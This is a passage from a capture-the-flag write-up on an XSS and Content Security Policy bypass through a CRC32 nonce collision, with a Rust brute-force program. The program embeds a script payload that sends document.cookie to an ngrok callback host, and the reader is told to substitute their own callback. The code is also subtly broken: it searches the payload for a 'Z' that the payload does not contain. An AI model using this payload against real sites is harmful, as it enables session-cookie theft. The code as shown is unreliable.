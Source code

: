 ```rust
use rayon::prelude::*;

fn main() {
    let payload = "<script nonce='f4dbdf21'>document.location='https://6466-{Redacted}.ap.ngrok.io?'+document.cookie</script>".to_string();
    let start = payload.find("Z").unwrap();
    (0..=0xFFFFFFFFu32).into_par_iter().for_each(|i| {
        let mut p = payload.clone();
        p.replace_range(start..start+8, &format!("{:08x}", i));
        if crc32fast::hash(p.as_bytes()) == i {
            println!("{} {i} {:08x}", p, i);
        }
    });
}
```

> Note: Replace your call back link to yours. Also, the nonce can be remain unchanged.

> It creates a range from 0 to $2^{32}$, then uses Rayon to parallelize it. Then, it places the iterator value into the nonce, and checks that the output of `crc32fast::hash` is itself the iterator value. (Once again, from this challenge author's [writeup](https://brycec.me/posts/dicectf_2023_challenges#recursive-csp)).

Then compile it, and run the compiled executable.

After you found the collided hash, you can repeat the same step in the first solution.

# Conclusion

What we've learned:

1. XSS (Cross-Site Scripting) & CSP (Content Security Policy) Bypass Via Insecure Nonce Value